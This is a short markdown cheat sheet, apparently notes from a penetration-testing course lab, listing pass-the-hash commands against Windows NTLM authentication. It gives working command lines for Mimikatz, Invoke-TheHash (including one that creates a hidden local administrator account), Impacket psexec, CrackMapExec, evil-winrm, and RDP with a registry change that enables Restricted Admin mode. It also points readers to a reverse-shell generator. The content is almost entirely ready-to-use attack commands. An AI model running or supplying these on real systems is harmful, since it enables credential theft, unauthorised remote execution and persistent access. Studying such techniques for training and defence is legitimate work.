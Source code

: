 ---------------------------
# Windows NTLM Introduction
-------------------------
- Using Mimikatz
```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

	# Options
	/user - The username we want to impersonate
	/rc4 or /NTLM - NTLM hash of the user's password
	/domain - Domain the user to impersonate belongs to.
	/run - the program we want to run once logged in	
```

- PowerShell Invoke-TheHash
```PowerShell
# Invoke-TheHash with SMB
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

# Note we can create a reverse shell from this command
# Go to this page to set up a revesere shell https://www.revshells.com/
# Paste whatever generated into the -Command flag
```

```PowerShell
# Invoke-TheHash with WMI
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target $IP -Domain $DOMAIN -Username $USERNAME -Hash $HASH -Command $COMMAND
```

- Pass the Hash with Impacket PsExec
```bash
impacket-psexec administrator@$IP -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

- Pass the Hash with CrackMapExec
```bash
crackmapexec smb $IP -u $USERNAME -d . -H $HASH

# Execute command with CrackMapExec
crackmapexec smb $Ip -u $USERNAME -d . -H $HASH -x $COMMAND
```

- Pass the Hash with evil-winrm
```bash
evil-winrm -i $IP -u $USERNAME -H $HASH
```

- Pass the Hash with RDP
	-Precondition: Restricted Admin Mode must be enabled on the TARGET
	```cmd
	reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
	```
	-Run xfreerdp with /pth flag
	```bash
	xfreerdp /v:$IP /u:$USERNAME /pth:$HASH
	```

